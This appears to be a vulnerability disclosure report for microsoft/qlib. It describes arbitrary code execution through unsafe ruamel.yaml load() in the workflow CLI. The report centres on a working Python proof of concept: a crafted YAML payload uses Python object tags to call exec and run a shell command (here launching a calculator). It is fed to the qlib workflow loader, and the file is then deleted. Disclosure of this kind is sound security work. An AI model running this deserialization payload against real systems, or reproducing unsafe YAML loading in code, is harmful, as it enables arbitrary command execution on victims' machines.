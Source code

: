 # Description
**Arbitrary Code Excecution** in microsoft/qlib.
Qlib is an AI-oriented quantitative investment platform, which aims to realize the potential, empower the research, and create the value of AI technologies in quantitative investment.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **ruamel.yaml**
# Exploit code
**Python File**
```python
import os
import qlib.workflow.cli as cli

exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('exploit.yml','w+').write(exploit)
cli.workflow('exploit.yml','workflow','/tmp')
os.system('rm exploit.yml')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/785893890766798868/Screenshot_from_2020-12-08_21-00-55.png)
